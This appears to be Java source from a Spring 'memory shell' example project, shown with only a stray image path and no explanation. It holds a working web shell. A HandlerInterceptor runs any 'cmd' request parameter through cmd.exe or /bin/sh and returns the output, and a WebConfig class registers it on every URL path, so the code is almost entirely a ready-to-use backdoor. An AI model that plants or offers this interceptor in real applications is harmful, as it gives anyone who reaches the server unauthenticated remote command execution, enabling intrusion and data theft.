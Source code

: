 ```java
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class TestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String output = "";
                ProcessBuilder processBuilder;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    processBuilder = new ProcessBuilder("cmd.exe", "/c", cmd);
                }else{
                    processBuilder = new ProcessBuilder("/bin/sh", "-c", cmd);
                }
                java.util.Scanner inputScanner = new java.util.Scanner(processBuilder.start().getInputStream()).useDelimiter("\\A");
                output = inputScanner.hasNext() ? inputScanner.next(): output;
                inputScanner.close();
                writer.write(output);
                writer.flush();
                writer.close();
            } catch (Exception ignored){}
            return false;
        }
        return true;
    }
}
```

`WebConfig.java`：

```java
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.config.annotation.InterceptorRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;

@Configuration
public class WebConfig implements WebMvcConfigurer {

    @Override
    public void addInterceptors(InterceptorRegistry registry) {
        registry.addInterceptor(new TestInterceptor()).addPathPatterns("/**");
    }
}
```
